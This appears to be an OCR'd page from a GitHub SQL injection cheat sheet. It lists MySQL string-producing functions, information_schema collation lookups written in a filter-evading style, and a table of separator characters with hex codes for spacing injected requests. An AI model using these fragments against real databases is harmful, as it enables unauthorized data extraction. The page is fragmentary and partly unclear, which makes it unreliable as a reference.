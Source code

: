 ```
version()                                                            
table_name()                                                           
user()                                                                 
system_user()                                                          
session_user()
database()                                                             
column_name()                                                          
collation(user())                                                      
collation(\N)                                                          
schema()
UUID()
current_user()
current_user


dayname(from_days(401))                                                
dayname(from_days(402))                                                
dayname(from_days(403))                                                
dayname(from_days(404))                                                
dayname(from_days(405))                                                
dayname(from_days(406))                                                
dayname(from_days(407))                                                

monthname(from_days(690))                                              
monthname(from_unixtime(1))
                                          
collation(convert((1)using/**/koi8r))

(select(collation_name)from(information_schema.collations)where(id)=1 
(select(collation_name)from(information_schema.collations)where(id)=23 
(select(collation_name)from(information_schema.collations)where(id)=36 
(select(collation_name)from(information_schema.collations)where(id)=48 
(select(collation_name)from(information_schema.collations)where(id)=50 
------forever----
```

### Adding Gaps between requests

```
testtest        nospace    0x1a
test*test       *              0x2a
test:test       :                0x3a
test::test      ::                0x3a3a
testJtest       J               0x4a
testZtest      Z              0x5a
testjtest        j               0x6a
testztest       z               0x7a
testtest        nospace     0x8a
testtest        nospace     0x9a
test test       SPACE     0x10a
```
